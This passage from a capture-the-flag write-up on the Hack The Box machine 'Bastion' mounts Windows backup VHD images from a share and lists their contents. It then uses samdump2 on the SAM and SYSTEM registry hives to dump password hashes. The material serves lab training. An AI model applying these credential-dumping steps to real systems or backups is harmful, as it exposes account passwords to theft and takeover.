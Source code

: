 Now, I’ll try to mount each of the two VHD files. (Use `\`to seperate the address's blank)

```bash
guestmount --add /mnt/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt2/
```

First one will be failed.

![[Bastion-02.png]]

```bash
guestmount --add /mnt/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt2/
```

![[Bastion-03.png]]

The second one works (need to wait long time), which providing access to what looks like a Windows file system root.

```bash
ls /mnt2/
```

![[Bastion-04.png]]

#### Shell on L4mpje

##### Dump Hashes From Registry

With full access to the file system, we have access to the registry files. These files can be locked when the system is running, but I won’t have that issue on a mounted drive. In the `config` directory where the registry hives are stored, I’ll use `secretsdump.py` or `samdump2` to dump the password hashes:

```bash
cd /mnt2/Windows/System32/config
ls
samdump2 SYSTEM SAM
```

```
┌──(root㉿kali)-[/home/kali/Desktop/Hackthebox/Bastion]
└─# cd /mnt2/Windows/System32/config
                                                                                                                                                                                
┌──(root㉿kali)-[/mnt2/Windows/System32/config]
└─# ls       
BCD-Template                                                                                  COMPONENTS.LOG   SAM.LOG        SOFTWARE.LOG2
BCD-Template.LOG                                                                              COMPONENTS.LOG1  SAM.LOG1       SYSTEM
COMPONENTS                                                                                    COMPONENTS.LOG2  SAM.LOG2       SYSTEM.LOG
COMPONENTS{6cced2ec-6e01-11de-8bed-001e0bcd1824}.TxR.0.regtrans-ms                            DEFAULT          SECURITY       SYSTEM.LOG1
COMPONENTS{6cced2ec-6e01-11de-8bed-001e0bcd1824}.TxR.1.regtrans-ms                            DEFAULT.LOG      SECURITY.LOG   SYSTEM.LOG2
COMPONENTS{6cced2ec-6e01-11de-8bed-001e0bcd1824}.TxR.2.regtrans-ms                            DEFAULT.LOG1     SECURITY.LOG1  systemprofile
COMPONENTS{6cced2ec-6e01-11de-8bed-001e0bcd1824}.TxR.blf                                      DEFAULT.LOG2     SECURITY.LOG2  TxR
COMPONENTS{6cced2ed-6e01-11de-8bed-001e0bcd1824}.TM.blf                                       Journal          SOFTWARE
COMPONENTS{6cced2ed-6e01-11de-8bed-001e0bcd1824}.TMContainer00000000000000000001.regtrans-ms  RegBack          SOFTWARE.LOG
COMPONENTS{6cced2ed-6e01-11de-8bed-001e0bcd1824}.TMContainer00000000000000000002.regtrans-ms  SAM              SOFTWARE.LOG1
                                                                                                                                                                                
```